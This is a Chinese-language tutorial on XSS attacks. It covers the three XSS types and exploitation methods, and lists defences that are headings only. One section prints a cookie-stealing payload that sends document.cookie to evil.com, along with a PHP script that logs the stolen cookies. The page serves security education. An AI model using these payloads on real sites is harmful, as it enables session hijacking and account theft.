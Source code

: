 ## 简介

XSS攻击，全称Cross Site Script攻击。通常是指黑客通过“HTML”注入篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。一般分为**反射型XSS**、**存储型XSS**和**基于DOM的XSS**。

1. **反射型XSS**：通常由黑客构造一个恶意的url，通过诱使用户点击实现攻击目的。
2. **存储型XSS**：黑客将恶意代码以博客或者其他形式存储到服务器上，每当其他用户浏览该内容时就会受到攻击。
3. **基于DOM的XSS**：这种XSS并不以“数据是否保存在服务器上”作为分类标准。从效果上，他是一种反射型XSS，但由于其独特的形成原因而单独列出。前端页面提供了用户修改DOM节点的功能，而用户通过输入攻击Payload达到插入脚本的目的，从而可以进一步实施更深入的攻击。

## XSS利用姿势

#### 1. Cookie窃取

可以使用下面的姿势将受害者cookie以GET的姿势发送到服务器上：

```js
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
<img src="http://www.evil.com/cookie.asp?cookie="+document.cookie></img>
```

远程服务器可以由配套接收cookie的服务器文件：

```php
<?php
$cookie = $_GET['cookie'];
$log = fopen("cookie.txt", "a");
fwrite($log, $cookie . "\n");
fclose($log);
?>
```

#### 2. 构造POST或者GET请求

利用插入在用户页面的XSS Payload，以用户的身份发送GET或者POST请求。Javascript可以发送GET、POST类型的请求，POST类型的请求也可以通过AJAX\(XMLHttpRequest或者ActiveXObject\)的方式发送。

#### 3. 钓鱼

#### 4. 挂马

#### 5. DOS或者DDOS

#### 6. XSS蠕虫

## 攻击姿势

通过XSS攻击，攻击者能够在用户当前浏览的页面中植入恶意脚本，并进而控制用户浏览器。这些脚本可以被称为攻击Payload。

###### 

## XSS防御

### 1. HttpOnly

### 2. 输入检查

### 3. 输出检查

> 参考：
>
> 1. 《白帽子讲Web安全》
> 2. [CTF-wiki: XSS cross-site scripting attack](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)



